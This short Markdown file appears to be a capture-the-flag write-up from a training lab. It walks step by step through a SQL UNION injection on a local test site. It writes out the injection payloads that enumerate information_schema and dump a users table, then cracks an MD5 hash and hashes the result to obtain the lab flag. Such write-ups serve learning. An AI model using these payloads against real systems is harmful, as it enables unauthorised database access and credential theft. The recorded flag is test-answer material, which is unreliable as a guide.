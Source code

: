 # SQL UNION ATTACK
A union attack attempts to pull information from an additional table that is not the current table that is being queried.

### Step 1
Navigate to http://0.0.0.0/index.php?page=member
> * Input into data search using ID's, try tentative search with integer and then without

### Step 2
> * Confirm SQL vulnerabitlity with 1 = 1 or 1

### Step 3
> * Attack
> 1. Confirm number off return columns and data types
 > * trial and error:  
> _1 = 1 or 1 ORDER BY 1_...  
> _UNION SELECT ‘a’,NULL_...
>
> 2. Find tables within current database  
 >_1 or 1 = 1 UNION SELECT 1,concat(table_name) FROM information_schema.tables WHERE table_schema = database()_  
> **users**
>
>3. Find columns within desired table  
 >_1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema = database()_  
>**user_id,first_name,last_name,town,country,planet,Commentaire,countersign**
>4. Find data  
 >_1 and 1=2 union select 1,concat(user_id,first_name,last_name,town,country,planet,Commentaire,countersign) from users_  
 <br>**5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28**  
 <br>_MD5 DECRYPT-> 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo_  
 <br> _toLower -> FortyTwo => fortytwo_  
 <br>_Sh256 ENCRYPT -> fortytwo => **10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5**_  

* https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635
